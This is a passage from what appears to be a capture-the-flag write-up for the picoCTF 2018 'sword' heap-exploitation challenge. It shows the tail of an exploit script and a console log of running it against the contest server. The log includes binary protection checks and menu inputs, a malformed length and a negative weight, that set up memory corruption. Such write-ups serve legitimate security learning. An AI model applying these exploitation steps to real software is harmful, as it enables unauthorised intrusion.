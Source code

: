 ```python
p.interactive()
```

Let's try it out, the challenge is available at `2018shell.picoctf.com`, port 10491.

```
$ python3 sword_pwn.py
[*] './libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 2018shell.picoctf.com on port 10491: Done
/* Welcome! */
1. Forge a sword.
2. Synthesise two sword.
3. Show a sword.
4. Destroy a sword.
5. Harden a sword.
6. Equip a sword.
7. Quit.
1
New sword is forged ^_^. sword index is 0.
/* Welcome! */
1. Forge a sword.
2. Synthesise two sword.
3. Show a sword.
4. Destroy a sword.
5. Harden a sword.
6. Equip a sword.
7. Quit.
5
What's the index of the sword?
0
What's the length of the sword name?
135
Plz input the sword name.
abc
What's the weight of the sword?
-1
OK....Plz wait for forging the sword..........
/* Welcome! */
1. Forge a sword.
2. Synthesise two sword.
3. Show a sword.
4. Destroy a sword.
5. Harden a sword.
6. Equip a sword.
7. Quit.
1
New sword is forged ^_^. sword index is 1.
/* Welcome! */
1. Forge a sword.
2. Synthesise two sword.
3. Show a sword.
4. Destroy a sword.
5. Harden a sword.
6. Equip a sword.
7. Quit.
4
What's the index of the sword?
0
/* Welcome! */
```